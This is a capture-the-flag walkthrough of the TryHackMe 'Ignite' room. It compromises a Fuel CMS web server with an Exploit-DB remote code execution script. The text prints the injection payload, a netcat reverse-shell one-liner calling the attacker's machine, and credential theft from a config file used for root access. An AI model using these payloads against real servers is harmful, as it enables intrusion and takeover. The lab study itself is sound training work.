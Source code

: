 # Try Hack Me - Ignite
A new start-up has a few issues with their web server.

## Disclaimer - Your IP address will be different!
---
## Objectives
1. Locate the User.txt

2. Locate the Root.txt
---
## Scanning and Enumeration
We are going to start this with a simple nmap scan to see what ports are open.  
Command: `nmap -T4 -sC -sV -oN nmap\inital <ip>`
Command Breakdown:  

```
-T4: speed of nmap scan is 4/5 (personal preference of mine)

-sC: Scan with default NSE scripts. Considered useful for discovery and safe

-sV: Attempts to determine the version of the service running on port

-oN: Normal output to the file normal.file
```

NMAP Results:  
From our intinal scann it seems that there is only one port open and the it 80.  
So lets open up our browser and see what shows up when we enter in the IP address of our challenge.  

```
# Nmap 7.80 scan initiated Thu Jul  9 19:15:51 2020 as: nmap -T4 -sC -sV -oN nmapinital 10.10.220.239
Nmap scan report for 10.10.220.239
Host is up (0.15s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```  
# Recon  

It looks like we have a functioning web service running the Fuel CMS.  
![webService](images/webService.png "webService")  
Now if we scroll futher down on this page it seems that the created has already provided us with the URL to the log in panel and the credentials needed to log in as well.  
![creds](images/creds.png "creds")  
So lets navigate to the `/fuel` url and see if we are actually able to log into this CMS.  
![login](images/login.png "login")  
Once we have entere in the credentials taht we found earlier it takes us direclty to the main dashboard for this application.  
![dashboard](images/dashboard.png "dashboard")  
Since I am not quite sure what to do with the dashboard I am going to place it on the back burner for now.  
Lets pull up searchsploit and see if we are able to find exploits for Fuel CMS.  
It looks like there is an Remote Code Execution vulnerability that we may be able to take advtange of.  
![searchSploit](images/searchSploit.png "searchSploit")  
I make a copy of this vulnerability into an exploite folder for this challenge.  
Command: `cp /usr/share/exploitdb/exploits/linux/webapps/47138.py /media/sf_CTF/THM/Ignite/exploits/RCE.py`  
Now that we have a copy of that exploite let take a look at the content of it.  
We are going to use nano.  
Command: `nano RCE.py`  

I had to make a couple of changes to the exploite.  
The first thing that I did was remove the port number,  
Secondly I remove the proxy variable.  
This is what you should have in at the end.  
Now when we run the exploite we are given a nice `CMD:` prompt.  
This is what you should have in at the end.  
```python
url = "http://10.10.220.239"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)
```  
As you can see we are able to run some commands remotely. When this new found power it is possible that we can create a reverse shell and then find out first flag.

![exploit](images/exploit.png "exploit")  

Let's see if [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has any one liners that we can try and chain together with this exploit. Well, well, well it looks like there is an one liner for seting up a netcat reverse shell. How about we give it a shot.  
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.222 4444 >/tmp/f
```
![RCE](images/RCE.png "RCE")  

Before we try and run this revser sell we are going to need to set up a netcat lisitener on out host machine.  
Command: `nc -lvnp 4444` 


Code Breakdown:
```netcat
-l: listen mode, for inbound connects

-v: verbose [use twice to be more verbose]

-n: numeric-only IP addresses, no DNS

-p: local port number
```
![firstShell](images/firstShell.png "firstShell")  
It looks like it worked! Now it is time to snoop around and see if we are able to find out user flag.  
After running the `ls` command a few times I was able to locate our first flag.  
We are going to use the `cat` command to receive the content of the `user.txt` file.   
![userFlag](images/userFlag.png "userFlag")  
<br>
## Privilege escalation
---

It is time to try and now to try and find out root flag.  
So where shall we start at. If you rember when we first accessed the Fuel CMS there was a small little information section that states a database file could be found at `/var/www/html/fuel/application/config/database.php`.  
![dbPath](images/dbPath.png "dbPath")  

Let's go check out that file and see what it contains.  
It seems like we have stumbled across the root username and password.   
![rootCreds](images/rootCreds.png "rootCreds")  

We can take the credentials that we just found and try to upgrade our user to a root user. 
Before we start running any commands we should try and do is create a stable shell.  
This can be done by using python and the following command `python -c ‘import pty; pty.spawn(“/bin/bash”)’`.  
Once our shell has become stable we can use the `su` command to switch into our root user account. 
<br>
![stableShell](images/stableShell.png "stableShell")  
Now that our shell is stable we are going to verify that we are actually root.  
Great we are in fact root. Now lets receive the root flag.    
![rootFlag](images/rootFlag.png "rootFlag") 

## Congratulations you have just completed the Ignite challenge!